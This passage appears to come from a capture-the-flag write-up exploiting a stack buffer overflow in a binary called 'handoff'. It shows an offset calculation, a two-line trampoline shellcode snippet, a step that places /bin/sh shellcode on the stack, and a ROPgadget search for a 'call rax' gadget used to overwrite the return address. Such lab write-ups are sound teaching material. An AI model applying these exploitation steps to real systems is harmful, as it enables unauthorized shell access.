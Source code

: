 ![cal](./img/cal.png)

Result: **`0x2CC`**

This is the offset between `msg` and `feedback`.

We’ll use it in our trampoline shellcode:

```asm
sub rax, 0x200
sub rax, 0xcc
```

---

### Step 3: Send shellcode to the stack

We send the full `/bin/sh` shellcode via the message system, which writes into the stack.

---

### Step 4: Trigger the overflow

Now we exploit the overflow in `feedback` by writing the trampoline shellcode and overwriting the return address with a `call rax` gadget.

We find the gadget using `ROPgadget`:

```bash
ROPgadget --binary handoff | grep rax
```

Output:

```
0x0000000000401014 : call rax   # <== This is what we’ll use
```

---
